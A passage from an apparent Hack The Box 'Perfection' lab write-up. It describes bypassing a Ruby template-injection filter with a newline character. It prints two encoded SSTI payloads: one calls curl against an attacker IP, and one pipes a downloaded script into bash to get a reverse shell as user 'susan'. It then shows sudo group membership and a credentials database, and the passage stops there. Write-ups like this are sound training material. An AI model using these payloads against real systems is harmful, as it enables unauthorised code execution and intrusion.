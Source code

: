 - This was a perfect scenario to attempt exploiting an SSTI (Server-Side Template Injection) in Ruby. However, the pentester noticed a filter that invalidated the POST request upon attempting to input the `<` character, thereby preventing the exploitation.

![](/assets/images/HTB-Writeup-Perfection/Pasted image 20240708102323.png)


## User

- At this point, the pentester searched for ways to bypass SSTI filters and found David Hamann's post, where he mentions how a misunderstanding of regular expressions in Ruby could result in creating an inefficient filter that fails to protect against SSTI attacks. In that scenario, he describes that it's possible to bypass the bad filter using a newline character (`%0a`). Therefore, assuming the developer implemented a flawed filter to prevent SSTI attacks, the pentester attempted to add a newline character (`%0a`), successfully exploiting SSTI in Ruby

```sh
math%0a<%25%3d+system('curl+http://10.10.14.123:44/RubySSTITesting')+%25>
```

![](/assets/images/HTB-Writeup-Perfection/Pasted image 20240708103732.png)

![](/assets/images/HTB-Writeup-Perfection/Pasted image 20240708103624.png)

- The pentester obtained a reverse shell using the following payload, noting that he accessed it as the user 'susan'.

```sh
10%0a<%25%3d+system('curl+http://10.10.14.123:44/rev+|+bash')+%25>
```

![](/assets/images/HTB-Writeup-Perfection/Pasted image 20240708001422.png)
![](/assets/images/HTB-Writeup-Perfection/Pasted image 20240708001443.png)

- Reading `user.txt`

```bash
susan@perfection:~$ cat user.txt
e3bcde74d0631f04e9a455496eda8f83
```

## Root
- Basic enumeration allowed the pentester to notice that the user 'susan' belongs to the 'sudo' group. Therefore, to achieve privilege escalation, it was sufficient to find Susan's password.

```bash
susan@perfection:~$ id
uid=1001(susan) gid=1001(susan) groups=1001(susan),27(sudo)
```

- After enumerating the home directory of the user 'susan', the pentester noticed the presence of an SQLite database file named `pupilpath_credentials.db`.

![](/assets/images/HTB-Writeup-Perfection/Pasted image 20240708001904.png)
